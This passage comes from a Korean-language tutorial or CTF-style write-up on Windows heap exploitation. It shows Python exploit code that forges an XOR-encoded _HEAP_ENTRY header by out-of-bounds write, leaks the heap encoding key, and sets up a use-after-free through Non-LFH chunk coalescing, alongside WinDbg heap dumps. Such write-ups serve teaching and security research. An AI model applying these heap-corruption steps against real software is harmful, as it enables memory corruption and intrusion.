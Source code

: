 ```python
   +0x00c PreviousSize     : 0x27
   +0x00e SegmentOffset    : 0 ''
   +0x00e LFHFlags         : 0 ''
   +0x00f UnusedBytes      : 0x10 ''
'''
log.info("fake XOR'ed _HEAP_ENTRY = 0x%016x" % fake_entry)

open_file()
read_file(2, 0x268)
edit(2, "A" * 0x268 + p64(fake_entry)[:6], False)
pause()

'''
0:001> dqs beefdad0000 lf
00000bee`fdad0000  0000ddaa`beef1acd
00000bee`fdad0008  00000000`000000c8
00000bee`fdad0010  00000000`00000001
00000bee`fdad0018  face6da6`1a35c767
00000bee`fdad0020  00000165`a3ed4370

00000bee`fdad0028  0000ddaa`beef1acd
00000bee`fdad0030  00000000`00000268
00000bee`fdad0038  00000000`00000002
00000bee`fdad0040  face6da6`1a35c767
00000bee`fdad0048  00000165`a3edff40

00000bee`fdad0050  0000ddaa`beef1acd
00000bee`fdad0058  00000000`00000200
00000bee`fdad0060  00000000`00000003
00000bee`fdad0068  0000ddaa`beef1acd
00000bee`fdad0070  00000165`a3ee01b0

0:001> !heap -p -a 00000165`a3ee01b0
    address 00000165a3ee01b0 found in
    _HEAP @ 165a3ed0000
              HEAP_ENTRY Size Prev Flags            UserPtr UserSize - state
        00000165a3ee01a0 01c8 0000  [00]   00000165a3ee01b0    01c70 - (busy)
'''
```

이제 이 취약점을 어떻게 사용할 수 있을지 고민해봐야 합니다.

지금까지 찾아낸 OOB 취약점을 이용해서는 Heap chunk만 조작할 수 있기 때문에, [3.10. Allocate/Free Non-LFH chunk](#310-Allocate/Free-Non-LFH-chunk)에서 설명한 것처럼 Non-LFH chunk의 경우 할당해제시 인접한 Heap chunk를 탐색하며 병합( coalesce )처리한다는 원리를 이용해볼 수 있습니다.

그렇기 때문에 OOB write로 조작한 size의 범위안에 다른 Heap chunk가 있다면 그 chunk도 같이 할당해제되서 UAF가 발생해 아래처럼 Heap 주소를 leak할 수 있습니다.

```python
# skip for brevity...

alloc(1, SIZE)
edit(1, "A" * SIZE)
heap_encod = u64(show(1)[SIZE:] + "\x00\x10") ^ 0x1000000d02010003
log.info("_HEAP->Encoding = 0x%016x" % heap_encod)
alloc(2, 0x268)
alloc(3, 0x200)

fake_entry = 0x10000027c80101c8 ^ heap_encod
'''
0x10000027c80101c8
   +0x008 Size             : 0x1c8
   +0x00a Flags            : 0x1 ''
   +0x00b SmallTagIndex    : 0xc8 ''
```